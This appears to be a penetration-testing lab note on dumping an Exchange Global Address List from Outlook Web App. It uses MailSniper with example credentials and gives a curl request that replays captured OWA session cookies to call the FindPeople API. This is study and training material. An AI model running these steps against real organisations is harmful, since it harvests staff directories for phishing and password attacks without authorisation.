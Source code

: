 # Dump GAL from OWA

This lab uses MailSniper to dump Global Address List \(GAL\) off the Outlook Web Application \(OWA\).

GAL - in layman terms is simply an address book of all the people that are known to the Exchange mail server. You know those auto suggestions when you are typing in the email address in the TO field in your email client - they are coming from the GAL.

What Microsoft says about GAL:

> **Global address lists \(GALs\)**: The built-in GAL that's automatically created by Exchange includes every mail-enabled object in the Active Directory forest. You can create additional GALs to separate users by organization or location, but a user can only see and use one GAL.
>
> [https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019](https://docs.microsoft.com/en-us/exchange/email-addresses-and-address-books/address-lists/address-lists?view=exchserver-2019)

## Execution

Import the MailSniper module and dump the GAL, provided you have at least one set of working credentials:

{% code title="attacker@local" %}
```csharp
. MailSniper.ps1
Get-GlobalAddressList -ExchHostname dc01.offense.local -UserName offense\spotless -Password 123456
```
{% endcode %}

![GAL successfully dumped](../../.gitbook/assets/screenshot-from-2019-01-15-18-58-46.png)

When looking at the contacts through the OWA UI, as mentioned in Blackhill Security article, `GetPeopleFilters` API is called to retrieve the `AddressListID`:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-16-39.png)

It is then passed to `FindPeople` API:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-21-13.png)

...which in turn retrieves a JSON object with contacts from the GAL

![](../../.gitbook/assets/screenshot-from-2019-01-15-19-03-13.png)

If you are interested in the JSON only \(most likely\), just switch to the Response tab:

![](../../.gitbook/assets/screenshot-from-2019-01-15-20-12-57%20%281%29.png)

If you have logged on to the OWA UI, you could also dump the JSON via CURL in bash:

{% code title="attacker@kali" %}
```bash
curl 'https://dc01/owa/service.svc?action=FindPeople' -X POST -H 'Cookie: X-BackEndCookie=S-1-5-21-2552734371-813931464-1050690807-500=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/N0s7Lq87Gxc/PxczO&S-1-5-21-2552734371-813931464-1050690807-1106=u56Lnp2ejJqBnszNmc/KnszSm5qZztLLnszH0seZy8bSnpudypzJzs3Pyc7GgYHNz87G0s/O0s3Hq8/PxcvPxc/O; ClientId=TFFPI9GMPEWAPEYPZVIWXQ; PrivateComputer=true; PBack=0; cadata=ESW2hf2tJL2L7Czb69B+/VNo0l5+rM6POPTUJIv0Vj7vsXMUvbqXzNpIkl/GylwMQG4QQg9Y8PkjGlJXU94tEis0V03jSVdgBVUnhOm2cLE=; cadataTTL=lWhZTkknWXOawVEzMk2O5w==; cadataKey=J2xUs5cK+VfEie4cIY6lUI2mE/TkCnmPNm8GY8rJN4x0eZzPLJG5L6igl8y19Xy+i2nKIwKASgtsA8IhZ3uXHuPbd5QYpDZ0YB2yPwTxYCHmUcYWbwBnbt08EFJrAfUL1je4rYgk1iQ43za/S0q0j3Rk1bMqSG6Puk3h0cWkTh4sJ2TtJ/h2UypAVVcIzPZTicLTreFK9JfabW30+r4M+AeQQUGuFXof1iTsPx8TffjSXHeTa3rg+hTh8yZJKXieRfL9YSssSU1g+zRp09w2HqXvtqm0vtXrcCF7jLB3jBzSbC1KtQ+bYPoYQduxvhFS6TV2L8ky421wukMslBV9nQ==; cadataIV=LT7ecWINf5C9N2D4rIA8A1HcR936GFTNMtH3bVI/qr8UR0oi1+yhITjYBg1XIqt4W2YM+qPFXhKQrA0ExhlsObjAdd3KnExbAZwlLoz1YMLTo+tEKhpa6zSKjHvWsPwCZdRuXIOhvUeIyUA6XqpT/ALuCM+QzrY4K96CkkOhl276SAwqTO8cJ++9BdrF7Jcz2e0lWjdPyaXcCj7xCY7Ku6ci8SU2jfohVhUDJYJJo7DURhvLg8jto3r7Wihx2xk7/36V8SjFjz7PDhXiGKqHJltq9erLqXeNPmdZ1pwIxHywbwGNCYxdsnIrkrFRE9DRTiKrpGv2zLEz3LpcA/oBLA==; cadataSig=crGDgMGnHI1qkLJecj9/CHvQqjn8zYtdBTTU3HpszGTRysm+5JL80TnWuedWVPh3XQMFuyUdobef4WBJ3t1waLhBSGIPJSxis8fxCwChZ4nDgRlvnU4N8MJMwmw2l8dHCQTb950FGZYeuwiTxTwVQcHUwvtNQ6urkf4jlqro24G386GvPPXXpvjwZAfimSitjfzO4AucI1lv1Qbt6psmPnMphNDtn3n3R/eKvGPJWPT12DQOO4/qeyhv1Idtmi7QGSqASSQXNwP+Dtn0WPb2+RPtu3dhNf/KC+3babolnTavkYc/ioIVhHUA9J7mO8XX+c+0E94vBI1DYjJVOV2QUg==; ASP.NET_SessionId=0476a55e-b193-4001-ba25-214c7aa1ebc2; TimeOffset=0; Eac_CmdletLogging=false; UC=df6d6d163ec4477cb1b5ee11d6fcd5ae; AppcacheVer=15.1.225.42:en-uswrld; X-OWA-CANARY=DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Origin: https://dc01' -H 'Accept-Encoding: gzip, deflate, br' -H 'Accept-Language: en-US,en;q=0.9' -H 'X-OWA-UrlPostData: %7B%22__type%22%3A%22FindPeopleJsonRequest%3A%23Exchange%22%2C%22Header%22%3A%7B%22__type%22%3A%22JsonRequestHeaders%3A%23Exchange%22%2C%22RequestServerVersion%22%3A%22Exchange2013%22%2C%22TimeZoneContext%22%3A%7B%22__type%22%3A%22TimeZoneContext%3A%23Exchange%22%2C%22TimeZoneDefinition%22%3A%7B%22__type%22%3A%22TimeZoneDefinitionType%3A%23Exchange%22%2C%22Id%22%3A%22GMT%20Standard%20Time%22%7D%7D%7D%2C%22Body%22%3A%7B%22__type%22%3A%22FindPeopleRequest%3A%23Exchange%22%2C%22IndexedPageItemView%22%3A%7B%22__type%22%3A%22IndexedPageView%3A%23Exchange%22%2C%22BasePoint%22%3A%22Beginning%22%2C%22Offset%22%3A0%2C%22MaxEntriesReturned%22%3A50%7D%2C%22QueryString%22%3Anull%2C%22ParentFolderId%22%3A%7B%22__type%22%3A%22TargetFolderId%3A%23Exchange%22%2C%22BaseFolderId%22%3A%7B%22__type%22%3A%22AddressListId%3A%23Exchange%22%2C%22Id%22%3A%224ee5c1bc-232a-4edb-b5e0-3596da3b7e05%22%7D%7D%2C%22PersonaShape%22%3A%7B%22__type%22%3A%22PersonaResponseShape%3A%23Exchange%22%2C%22BaseShape%22%3A%22Default%22%2C%22AdditionalProperties%22%3A%5B%7B%22__type%22%3A%22PropertyUri%3A%23Exchange%22%2C%22FieldURI%22%3A%22PersonaAttributions%22%7D%5D%7D%2C%22ShouldResolveOneOffEmailAddress%22%3Afalse%2C%22SearchPeopleSuggestionIndex%22%3Afalse%7D%7D' -H 'Action: FindPeople' -H 'X-Requested-With: XMLHttpRequest' -H 'Connection: keep-alive' -H 'X-OWA-CANARY: DGcjQo94fESiIolOxDka23AinLgbe9YIJCe8-7U7KhN9-2OKKXNACOK61kwxroUcki4YMtH51O4.' -H 'Content-Length: 0' -H 'X-OWA-ActionName: BrowseInDirectory' -H 'X-OWA-ActionId: -34' -H 'User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/71.0.3578.98 Safari/537.36' -H 'Content-Type: application/json; charset=UTF-8' -H 'Accept: */*' -H 'X-OWA-ClientBuildVersion: 15.1.225.42' -H 'X-OWA-CorrelationId: TFFPI9GMPEWAPEYPZVIWXQ_154757883153962' -H 'X-OWA-ClientBegin: 2019-01-15T19:00:31.539' -H 'X-OWA-Attempt: 1' --compressed --insecure
```
{% endcode %}

![](../../.gitbook/assets/screenshot-from-2019-01-15-19-26-46%20%281%29.png)

## References

[https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/](https://www.blackhillsinfosec.com/attacking-exchange-with-mailsniper/)

{% embed url="https://www.blackhillsinfosec.com/downloading-an-address-book-from-an-outlook-web-app-owa-portal/" %}



